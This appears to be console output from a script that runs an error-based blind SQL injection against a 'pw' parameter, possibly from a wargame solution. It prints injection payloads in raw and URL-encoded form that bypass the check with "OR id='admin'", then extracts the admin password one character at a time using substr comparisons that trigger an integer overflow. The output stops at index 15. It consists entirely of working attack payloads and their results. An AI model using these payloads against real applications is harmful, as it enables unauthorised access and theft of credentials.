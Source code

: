 ```

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 5, 1)='a', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+5%2C+1%29%3D%27a%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 5: a

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 6, 1)='6', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+6%2C+1%29%3D%276%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 6: 6

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 7, 1)='c', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+7%2C+1%29%3D%27c%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 7: c

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 8, 1)='1', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+8%2C+1%29%3D%271%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 8: 1

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 9, 1)='6', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+9%2C+1%29%3D%276%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 9: 6

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 10, 1)='e', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+10%2C+1%29%3D%27e%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 10: e

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 11, 1)='8', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+11%2C+1%29%3D%278%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 11: 8

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 12, 1)='8', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+12%2C+1%29%3D%278%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 12: 8

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 13, 1)='3', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+13%2C+1%29%3D%273%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 13: 3

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 14, 1)='0', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+14%2C+1%29%3D%270%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 14: 0

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 15, 1)='4', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
```